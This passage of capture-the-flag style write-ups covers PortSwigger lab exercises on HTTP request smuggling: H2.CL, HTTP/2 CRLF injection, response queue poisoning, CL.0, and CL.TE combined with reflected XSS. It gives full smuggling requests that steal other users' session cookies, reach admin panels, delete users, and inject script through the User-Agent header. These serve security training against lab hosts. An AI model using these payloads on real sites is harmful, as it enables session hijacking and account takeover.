administrator cookie and we can delete the user with it:





12 H2.CL request smuggling
==========================

This lab is vulnerable to request smuggling because the front-end server
downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's
browser to load and execute a malicious JavaScript file from the exploit server,
calling alert(document.cookie). The victim user accesses the home page every 10
seconds.

Hint:

-   Solving this lab requires a technique that we covered in the earlier HTTP
    request smuggling materials
    (https://portswigger.net/web-security/request-smuggling/exploiting\#using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect)

-   You need to poison the connection immediately before the victim's browser
    attempts to import a JavaScript resource. Otherwise, it will fetch your
    payload from the exploit server but not execute it. You may need to repeat
    the attack several times before you get the timing right.

References:

-   https://portswigger.net/web-security/request-smuggling/advanced





There is a search function whose content is reflected inside an h1 element:


Searching generates a POST request with the parameter “search”:



There are requests to “/analytics” when accessing “/”:



And there are references to a Javascript file in the home page:



The content in /resources/js/analyticsFetcher.js is:



I will create this file in the exploit server:



First we see with “Content-Length: 0”, 1 of every 2 requests fails (is
smuggled):



Of all the folders in the page, if we access "/resources" it redirects to
"/resources/" and "/image" to "/image/"





Using this payload, we can get a redirect to "/resources" in the exploit server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


GET /resources HTTP/1.1
Host: exploit-0a4f00f203b90e88815a42a701ee00bd.exploit-server.net
Content-Length: 10

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We can change the path of the payload in the exploit server so it is accessible
in “/resources”:





13 HTTP/2 request smuggling via CRLF injection
==============================================

This lab is vulnerable to request smuggling because the front-end server
downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain
access to another user's account. The victim accesses the home page every 15
seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please
refer to the documentation for details on how to use them.

Hint: To inject newlines into HTTP/2 headers, use the Inspector to drill down
into the header, then press the Shift + Return keys. Note that this feature is
not available when you double-click on the header.

Hint: We covered some ways you can capture other users' requests via request
smuggling in a previous lab.

References:

-   https://portswigger.net/web-security/request-smuggling/advanced



There is a function to send comments:


It generates a POST request:



To test the H2.TE payload like this one:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

GET /404 HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Content-Length: 10

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We must add a new header and add and the “Transfer-Encoding: chunked” header
inside its value, in the Inspector, with the keys “Shift+Return” (Mayús+Enter):



Every 2 requests, one is to /404:



We will change the request to “/404” for a payload to post a comment:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 100

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We see the request is written as a comment in the post:



The final payload is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 200

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can read the whole cookies in the comments:



And use the cookie to accecss the page as “carlos”:



14 HTTP/2 request splitting via CRLF injection
==============================================

This lab is vulnerable to request smuggling because the front-end server
downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user carlos by using response queue poisoning to
break into the admin panel at /admin. An admin user will log in approximately
every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you
get it into a bad state - just send a few normal requests to get a fresh
connection.

Hint: To inject newlines into HTTP/2 headers, use the Inspector to drill down
into the header, then press the Shift + Return keys. Note that this feature is
not available when you double-click on the header.

References:

-   https://portswigger.net/web-security/request-smuggling/advanced



Intercept the GET request and add “”, the “Host” header, “”, “” and the new
request:



Every two requests, we get a request to “/admin”, but no access to it:



Then I added the “Host” header to the second request too:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ba
Host: 0a5f00f003d0fe7d8643783800450004.web-security-academy.net

GET /admin HTTP/1.1
Host: 0a5f00f003d0fe7d8643783800450004.web-security-academy.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The response queue is poisoned after this. I executed a GET request to “/” every
second, so the first request after the smuggling returns a 401 error code, the
response from the access to “/admin”, and the following requests may get the
response from the victim user. In this case I got a 302 redirection code, with
the cookie of the victim:



With this cookie it is possible to access the “/admin” panel:



And then delete the user:



15 CL.0 request smuggling
=========================

This lab is vulnerable to CL.0 request smuggling attacks. The back-end server
ignores the Content-Length header on requests to some endpoints.

To solve the lab, identify a vulnerable endpoint, smuggle a request to the
back-end to access to the admin panel at /admin, then delete the user carlos.

This lab is based on real-world vulnerabilities discovered by PortSwigger
Research. For more details, check out Browser-Powered Desync Attacks: A New
Frontier in HTTP Request Smuggling.

References:

-   https://portswigger.net/web-security/request-smuggling/browser/cl-0





Steps to create a group:





In my case it does not work when creating a group, I send the same request twice
(using always HTTP/1):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /resources/images/blog.svg HTTP/1.1
...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /resources/images/blog.svg HTTP/1.1
...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /admin HTTP/1.1
Foo: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /resources/images/blog.svg HTTP/1.1
...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




# 11 - Exploiting HTTP request smuggling to deliver reflected XSS

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling

- https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn#demo

- https://portswigger.net/web-security/request-smuggling/exploiting


---------------------------------------------

Generated link: https://0a1700ce0389844181edcf97005800c5.web-security-academy.net/

There is a functionality to post a comment:


It is a POST request. We see the User Agent in a parameter:


We intercept and change the User Agent when accessing “/post?postId=6”:


And the parameter “UserAgent” in the POST request to post the comment is now the XSS payload:


So the User Agent is stored and sent when creating the comment. If we set a random value and read the code of the page we can see it is stored as a hidden value in HTML:


We see the value "TESTING":


We can try to exploit this with a payload like:

```
useragent"><script>alert(1)</script><a href="/test
```


And the alert message appears:


The GET request is:

```
GET /post?postId=6 HTTP/2
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Cookie: session=wCZh63XkY3fb78PZD4YQHfyiprCzjeko
User-Agent: useragent"><script>alert(1)</script><a href="/test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab30009038a2d4080d2494d0061002a.web-security-academy.net/post/comment/confirmation?postId=6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

I will launch HTTP Request Smuggler to try to detect the HTTP smuggling vulnerability:


From the lab description we have this:


In the blog post we can read:


And there are 3 types of HTTP smuggling:


The front-end server doesn't support chunked encoding so the result from the Burp extension is CL.TE:


How to exploit it:


We try to send the malicious GET request after a 0 in the POST request:


If we visit the website we get an invalid request response:


I had to add the Content-Length and at least one character:


```
POST / HTTP/1.1
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 120

0

GET /post?postId=6 HTTP/1.1
User-Agent: useragent"><script>alert(1)</script><a href="/test
Content-Length: 3

a
```
